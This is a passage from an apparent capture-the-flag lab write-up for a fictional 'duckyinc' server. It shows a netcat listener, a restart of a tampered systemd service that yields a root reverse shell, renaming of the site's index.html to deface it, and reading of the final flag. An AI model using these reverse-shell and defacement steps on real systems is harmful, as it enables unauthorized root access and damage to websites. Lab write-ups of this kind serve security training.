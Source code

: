 `nc -lvnp 9999`  

step 3. restart duckyinc service  

```
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service
```  

now we got reverce shell , and we can check privilege.
```
root@duckyinc:/var/www/duckyinc# whoami
whoami
root
```

step 4. find flag

usualy, final flag will place /root dirctory
```
root@duckyinc:/var/www/duckyinc# ls /root
ls /root
```  

we check flag3 hint is Mission objectives, in this story, we need to broke the web, so we change index.html name.

```
root@duckyinc:/var/www/duckyinc# cd templates
cd templates
root@duckyinc:/var/www/duckyinc/templates# ls
ls
404.html
500.html
admin.html
base.html
contact.html
index.html
login.html
product.html
products.html
root@duckyinc:/var/www/duckyinc/templates# mv index.html index2.html
mv index.html index2.html
root@duckyinc:/var/www/duckyinc/templates# ls /root
ls /root
flag3.txt
root@duckyinc:/var/www/duckyinc/templates# cat flag3
cat flag3
cat: flag3: No such file or directory
root@duckyinc:/var/www/duckyinc/templates# cat flag3.txt
cat flag3.txt
cat: flag3.txt: No such file or directory
root@duckyinc:/var/www/duckyinc/templates# cat /root/flag3.txt
cat /root/flag3.txt
thm{m1ss10n_acc0mpl1sh3d}
root@duckyinc:/var/www/duckyinc/templates#
```
